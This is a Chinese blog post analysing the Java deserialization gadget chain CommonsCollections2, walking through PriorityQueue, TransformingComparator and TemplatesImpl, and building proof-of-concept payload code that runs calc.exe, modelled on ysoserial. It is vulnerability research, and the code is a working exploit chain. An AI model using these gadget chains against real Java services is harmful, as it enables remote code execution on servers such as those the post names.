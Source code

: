 ```yaml
---
layout: post  
title: "java反序列化漏洞-玄铁重剑之CommonsCollection(下)"  
date: 2018-1-26  
description: "java漏洞"  
tag: 漏洞分析
---
```

## 前言:
  玄铁重剑，是金庸小说笔下第一神剑。由「玄铁」制成，重八八六十四斤；由「剑魔」独孤求败所使，四十岁前持之无敌于天下。 独孤求败逝去后为杨过所得，并由独孤求败的「朋友」神雕引导，之后在神雕的指导下，也根据独孤求败的独门秘籍及练功方法，练成了一身天下无敌的剑法及内功心法。
##  主角:
 CommonsCollection, commons-collections.jar
##  介绍:
Java Collections Framework 是JDK 1.2中的一个重要组成部分。它增加了许多强大的数据结构，加速了最重要的Java应用程序的开发。从那时起，它已经成为Java中集合处理的公认标准。官网介绍如下:
![](http://ohsqlm7gj.bkt.clouddn.com/18-2-1/38664389.jpg)
Commons Collections使用场景很广，很多商业,开源项目都使用到了commons-collections.jar。
很多组件，容器，cms(诸如WebLogic、WebSphere、JBoss、Jenkins、OpenNMS等)的rce漏洞都和Commons Collections反序列被披露事件有关。
##  正文:

  再讲一个执行链，在ysoserial中，CommonsCollections2提到了，通过上一篇的分析，我们得知执行链很多。接下来接着分析另外一个执行链, 需要借助的是PriorityQueue这个类，这里我找到了一条执行链
PriorityQueue.readObject()->PriorityQueue.heapify()->PriorityQueue.siftDown()->PriorityQueue.siftDownUsingComparator()->TransformingComparator.compare()->InvokerTransformer.transformat()
这和ysoserial提到的是一样的, 下面我们自己来尝试构造下poc。
通过分析源码，我们可构造出TransformingComparator.compare的大致结构如下:
	
	public static void main(final String[] args) throws Exception {
       runcompare();
	}
	public static void runcompare(){
	       InvokerTransformer invokerTransformer= getInvokerTransformer();
	       TransformingComparator transformingComparator = new TransformingComparator(invokerTransformer);
	       Runtime runtime1 = Runtime.getRuntime();
	       transformingComparator.compare(runtime1, null);
	
	   }
	   public static InvokerTransformer getInvokerTransformer(){
	       String[] cmds = new String[]{"calc.exe"};
	       InvokerTransformer invokerTransformer = new InvokerTransformer("exec", new Class[]{String[].class}, new Object[]{cmds});
	       return invokerTransformer;
	   }
	
![](http://ohsqlm7gj.bkt.clouddn.com/18-2-1/92800586.jpg)
其中PriorityQueue.siftDownUsingComparator调用compare的地方如下，查看源码可知，我们要将runtime对象放在 queue中。
![](http://ohsqlm7gj.bkt.clouddn.com/18-2-1/16223501.jpg)
通过分析源码得知， 必须要给comparator赋值，comparator的赋值操作可以在构造函数里面进行。
![](http://ohsqlm7gj.bkt.clouddn.com/18-2-1/55297502.jpg)
通过最终分析组合出如下poc:
	
	public Queue<Object> getObject(final String command) throws Exception {
        PriorityQueue queue = getPriorityQueue();
        return queue;
    }

    public static void main(final String[] args) throws Exception {
        PayloadRunner.run(CommonsCollections2.class, args);
    }
    public static PriorityQueue getPriorityQueue() throws Exception {
        TransformingComparator transformingComparator = getTransformingComparator();
        PriorityQueue priorityQueue = new PriorityQueue(1, transformingComparator);
        priorityQueue.add(Runtime.getRuntime());
        return priorityQueue;
    }

    public static TransformingComparator getTransformingComparator(){
        InvokerTransformer invokerTransformer= getInvokerTransformer();
        TransformingComparator transformingComparator = new TransformingComparator(invokerTransformer);
        return transformingComparator;

    }
    public static InvokerTransformer getInvokerTransformer(){
        String[] cmds = new String[]{"calc.exe"};
        InvokerTransformer invokerTransformer = new InvokerTransformer("exec", new Class[]{String[].class}, new Object[]{cmds});
        return invokerTransformer;
    }
	}
	
但是在序列化的时候就出错了，2333，
很显然，Runtime不能直接序列化，因为他没有实现接口。
![](http://ohsqlm7gj.bkt.clouddn.com/18-2-1/33519718.jpg)
那么想通过类似于CommonsCollection1的方式去执行函数，即
	
	inal Transformer[] transformers = new Transformer[]{
	new ConstantTransformer(Runtime.class),
	new InvokerTransformer("getMethod", new Class[]{
	String.class, Class[].class}, new Object[]{
	"getRuntime", new Class[0]}),
	new InvokerTransformer("invoke", new Class[]{
	Object.class, Object[].class}, new Object[]{
	null, new Object[0]}),
	new InvokerTransformer("exec",
	new Class[]{String.class}, execArgs),
	new ConstantTransformer(1)};
	final Transformer transformerChain = new ChainedTransformer(
	new Transformer[]{new ConstantTransformer(1)});
	Transformer transformerChain = new ChainedTransformer(transformers);
	
然而并不行，这个类在commons-collections4.jar中不具有类。最终还是看了一下ysoserial的poc，发现其利用的到是TemplatesImpl类,后面很多反序列化都用到这个。
![](http://ohsqlm7gj.bkt.clouddn.com/18-2-1/13395039.jpg)
笔者记得在廖新喜师傅在分析fastsjon反序列化的时候也提到过这个，[http://xxlegend.com/2017/04/29/title-%20fastjson%20%E8%BF%9C%E7%A8%8B%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96poc%E7%9A%84%E6%9E%84%E9%80%A0%E5%92%8C%E5%88%86%E6%9E%90/](http://xxlegend.com/2017/04/29/title-%20fastjson%20%E8%BF%9C%E7%A8%8B%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96poc%E7%9A%84%E6%9E%84%E9%80%A0%E5%92%8C%E5%88%86%E6%9E%90/)
我们需要将一个编译成class 文件的类进行base64编码，并且赋值给_bytecodes，关于怎么做可以参考廖师傅的文章。我这里讲一下pwntester是怎么做的，这种做法需要借助ClassPool。
###浅谈ClassPool怎么用: 
classPool简单用法如下:
	
	public class Main {
    public static void main(String[] args){
        try
        {
            ClassPool pool = ClassPool.getDefault();
            CtClass ctClass = pool.makeClass("net.codersec.Person");
            CtField ctField = new CtField(CtClass.intType, "name", ctClass);
            ctField.setModifiers(Modifier.PUBLIC);
            ctClass.addField(ctField);
            byte[] bytes = ctClass.toBytecode();
            FileOutputStream fileOutputStream = new FileOutputStream(new File("Person.class"));
            fileOutputStream.write(bytes);
            fileOutputStream.close();
        }catch (Exception e){
          e.printStackTrace();
        }
    }
	}
	
运行上面的代码就会生成一个class文件，反编译结果如下:
![](http://ohsqlm7gj.bkt.clouddn.com/18-2-1/43466655.jpg)
这里有一个小技巧，就是在Class.newInstance的时候，可以在Class的构造函数里面加要执行的恶意代码，但是也可以 通过insertAfter()将要执行的代码在构造函数运行后运行。
![](http://ohsqlm7gj.bkt.clouddn.com/18-2-1/20467796.jpg)
其生成的代码如下:
![](http://ohsqlm7gj.bkt.clouddn.com/18-2-1/93917050.jpg)
最终调试完成之后poc如下:
	
	final Object templates = Gadgets.createTemplatesImpl(command);
	final InvokerTransformer transformer = new InvokerTransformer("toString", new Class[0], new Object[0]);
	final PriorityQueue<Object> queue = new PriorityQueue<Object>(2,new TransformingComparator(transformer));
	queue.add(templates);
	queue.add(templates);
	Reflections.setFieldValue(transformer, "iMethodName", "newTransformer");
	final Object[] queueArray = (Object[]) Reflections.getFieldValue(queue, "queue");
	return queue;
	
其中用到的是函数 TemplatesImpl.newTransformer，而不是TemplatesImpl.getTransletInstance，因为getTransletInstance权限是private不能被直接反射?试了几个public权限的函数，比如getOutputProperties，newTransformer都可以。 且getOutputProperties，newTransformer中都有调用getTransletInstance。
##  拓展学习
  其实除了InvokerTransformer.transformat，还可以利用InstantiateTransformer.transformat()，其中collcetion5就是利用了com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter构造函数中调用了TemplatesImpl.getTransletInstance()
  ![](http://ohsqlm7gj.bkt.clouddn.com/18-2-1/79221799.jpg)
  ![](http://ohsqlm7gj.bkt.clouddn.com/18-2-1/65780167.jpg)
  其调用链更复杂
PriorityQueue.readObject()->PriorityQueue.heapify()->PriorityQueue.siftDown()->PriorityQueue.siftDownUsingComparator()->TransformingComparator.compare()->InstantiateTransformer.transformat()->com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter.newInstance()->TemplatesImpl.getTransletInstance()->Class.newInstance()

##  参考链接  
http://blog.csdn.net/a394268045/article/details/51996082
http://blog.csdn.net/yyywyr/article/details/16984335


